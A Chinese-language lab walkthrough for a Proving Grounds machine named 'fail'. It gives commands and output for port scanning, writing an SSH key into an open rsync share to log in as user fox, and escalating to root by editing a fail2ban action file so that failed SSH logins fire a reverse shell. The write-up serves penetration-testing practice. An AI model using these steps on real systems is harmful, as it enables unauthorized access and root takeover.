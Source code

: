 # 端口枚举

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ sudo nmap -sS -p1-65535 -Pn 192.168.178.126
Nmap scan report for 192.168.178.126
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

这里只扫描出来了2个端口, 那么这个机器的重点就得在Rsync里面了. 

参考Hacktricks的内容 https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#manual-rsync

# Rsync 攻击

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ nc 192.168.201.126 873
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox             fox home
@RSYNCD: EXIT

```

使用`nc`去查看分享的文件. 根据上面的List我可以知道这个用户的用户名为fox.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ rsync -av --list-only rsync://192.168.201.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 17:51:59 .
lrwxrwxrwx              9 2020/12/03 23:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 08:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 08:42:36 .bashrc
-rw-r--r--            807 2019/04/18 08:42:36 .profile

```

使用list查看的话只能查看到上述命令输出的文件, 所以回去再看看HackTrick, 它说可以利用Rsync去上传文件, 那么就只有生成ssh-key的方法了, 如下展示如何通过Rsync去上传ssh-key.

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/aaron/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/aaron/.ssh/id_rsa
Your public key has been saved in /home/aaron/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:mcBT8qcPYpK97OpDIC3wCN+1Br+BIFy8wGu1VJopMKQ aaron@aacai
The key's randomart image is:
+---[RSA 3072]----+
|*.o.... .        |
|*=.+=..+         |
|EB=*o=+.. .      |
|+o*ooo=o =       |
|.o .o.+oS        |
|    .+.o o       |
|   .  o   .      |
|    ..           |
|   .oo.          |
+----[SHA256]-----+
```



然后使用`rsync`去传输.ssh文件

```bash
┌──(aaron㉿aacai)-[~/.ssh]
└─$ rsync -av . rsync://fox@192.168.201.126/fox/.ssh 
```



<img src="../Images/image-20230810123105296.png" alt="image-20230810123105296" style="zoom:80%;" />



再使用list来查看目录下的文件

```bash
[~/.ssh]
└─$ rsync -av --list-only rsync://fox@192.168.201.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2023/08/10 08:01:03 .
lrwxrwxrwx              9 2020/12/03 23:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 08:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 08:42:36 .bashrc
-rw-r--r--            807 2019/04/18 08:42:36 .profile
drwx------          4,096 2023/08/10 07:59:05 .ssh
-rw-------          2,590 2023/08/10 07:59:05 .ssh/id_rsa
-rw-r--r--            565 2023/08/10 07:59:05 .ssh/id_rsa.pub
-rw-------         11,646 2023/08/10 07:40:49 .ssh/known_hosts
```



但是目前我还不能使用fox去登录这个机器, 因为需要上传`.pub`文件到上面才行.

<img src="../Images/image-20230810123210396.png" alt="image-20230810123210396" style="zoom:80%;" />

```bash
[~/.ssh]
└─$ cat id_rsa.pub >> authorized_keys
                                                                                    
[~/.ssh]
└─$ rsync -av . rsync://fox@192.168.201.126/fox/.ssh     
sending incremental file list
./
authorized_keys
```

现在就可以通过ssh来登录fox账号了

```bash
[~/.ssh]
└─$ ssh -i id_rsa fox@192.168.201.126                    
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ 
```

<img src="../Images/image-20230810123318417.png" alt="image-20230810123318417" style="zoom:80%;" />

# 提权

## 信息收集

```bash
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                             
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
uid=100(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=101(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=102(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=103(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=104(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=105(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=999(systemd-coredump) gid=999(systemd-coredump) groups=999(systemd-coredump)
uid=9(news) gid=9(news) groups=9(news)

```

通过查看所有用户和组可以发现用户`fox`在一个名为`fail2ban`的组当中, 并且在这个机器上还运行着另外一个服务`fail2ban-server`, 而且还是以`root`身份运行的, 具体去查看一下这个运行的服务.

```bash
fox@fail:/tmp/linux-x86_64$ ps -ef | grep "fail2ban"
root     13489     1  0 00:46 ?        00:00:00 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
fox      13496  1048  0 00:46 pts/0    00:00:00 grep fail2ban

fox@fail:/tmp/linux-x86_64$ ls /etc/fail2ban/
action.d       fail2ban.d  jail.conf  paths-arch.conf    paths-debian.conf    README.fox
fail2ban.conf  filter.d    jail.d     paths-common.conf  paths-opensuse.conf
fox@fail:/tmp/linux-x86_64$ 

```

这里有一个`.fox`为后缀的README文件

```bash
fox@fail:/tmp/linux-x86_64$ cat /etc/fail2ban/README.fox 
Fail2ban restarts each 1 minute, change ACTION file following Security Policies. ROOT!
fox@fail:/tmp/linux-x86_64$ 

```

它告诉我Fail2ban的服务将会在每分钟重启一次, 可以修改`ACTION`文件去做一些什么.

<img src="../Images/image-20230810125406392.png" alt="image-20230810125406392" style="zoom:80%;" />

在`jail.conf`配置文件里面只能看到ssh服务被打开

<img src="../Images/image-20230810125603501.png" alt="image-20230810125603501" style="zoom:80%;" />

<img src="../Images/image-20230810125623715.png" alt="image-20230810125623715" style="zoom:80%;" />

在这些图片中，我们可以看到，如果我们在 10 分钟内尝试登录 2 次失败，我将被禁止登录 1 分钟，禁止操作是在位于`action.d`文件夹中的`iptables-multiport`配置文件中确定的

因此，攻击方向应该是更改 `/etc/fail2ban/action.d/` 中 `iptables-multiport.conf` 文件的配置文件，而不是使用 `iptables 阻止 IP`，那么思路就是把反弹shell的命令放到配置文件当中。 然后，等待 1 分钟让fail2ban 服务重新启动，然后故意进行 2 次失败的 ssh 登录尝试，以便启动自动操作来获取反弹shell。

<img src="../Images/image-20230810130151540.png" alt="image-20230810130151540" style="zoom:80%;" />



保存配置文件之后，故意输入两次错误的密码，这样就能触发配置文件中的自动化运行命令来反弹shell。

<img src="../Images/image-20230810130415367.png" alt="image-20230810130415367" style="zoom:80%;" />

最终得到root的反弹shell。

<img src="../Images/image-20230810130604367.png" alt="image-20230810130604367" style="zoom:80%;" />